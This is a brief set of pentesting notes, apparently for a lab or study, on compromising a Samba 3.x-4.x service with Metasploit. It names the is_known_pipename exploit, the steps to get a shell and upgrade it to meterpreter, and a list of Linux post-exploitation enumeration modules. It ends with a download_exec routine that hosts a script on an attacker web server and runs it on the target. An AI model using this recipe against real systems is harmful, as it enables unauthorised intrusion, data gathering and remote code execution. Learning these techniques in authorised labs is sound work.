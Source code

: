 service samba smbd 3.x - 4.x 
- use exploit/linux/samba/is_known_pipename
- get shell
- session -u (upgrade to meterpter)
_________________

- post/linux/gather/enum_configs
- post/multi/gather/env
- post/linux/gather/enum_network
- post/linux/gather/enum_protections
- post/linux/gather/enum_system
- post/linux/gather/checkcontainer
- post/linux/gather/checkvm
- post/linux/gather/enum_users_history
- post/multi/manage/system_session
- post/linux/manage/download_exec

we can make our own file and upload it target 
- make a test.sh 
- run apache server
- cp test.sh /var/www/html
- use post/linux/manage/download_exec 
- set URL http://192.162.5.2/test.sh 
- set SESSION 1 
- run